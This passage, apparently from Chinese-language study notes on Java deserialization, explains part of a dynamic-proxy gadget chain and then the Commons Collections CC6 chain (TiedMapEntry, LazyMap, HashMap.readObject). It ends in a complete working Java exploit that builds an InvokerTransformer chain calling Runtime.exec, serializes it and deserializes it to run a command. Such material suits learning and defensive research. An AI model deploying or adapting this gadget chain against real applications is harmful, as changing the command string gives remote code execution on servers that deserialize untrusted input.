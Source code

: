 
这里的重点就在于那个`handle`r的它实现了`invoke`，可以来动态代理，就可以触发他的invoke方法，进而触发lazymap的get方法。不分析了，因为今天被版本恶心到了。

### CC6

解决了高版本危机。主要难点就在于如何找上下⽂中是否还有其他调⽤ `LazyMap#get()` 的地⽅

p牛找到的链子是`org.apache.commons.collections.keyvalue.TiedMapEntry`在它的`getValue`方法中调用了map的get方法。在他的`hashCode`方法中又调用了自己的`getValue`方法。所以现在要找一个调用`hashcode`方法的地方。

然后在`HashMap`的`hash(key)`，然后他的readobject方法中调用了该方法，所以现在让key等于`TiedMapEntry`就可以触发了。

链子初步构造

```java
        String cmd = "calc";
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };
        //构造利用链
        Map innermap = new HashMap();
        Transformer transformedChain = new ChainedTransformer(fakeTransformers);
        Map outermap = LazyMap.decorate(innermap,transformedChain);
        TiedMapEntry tme = new TiedMapEntry(outermap, "keykey");
        HashMap expMap = new HashMap();
        expMap.put(tme,"valuevalue");


        //避免一次触发
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformedChain, transformers);
        //模拟攻击

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //生成序列化

        ByteArrayInputStream bai = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bai);
        Object o = (Object)ois.readObject();
```
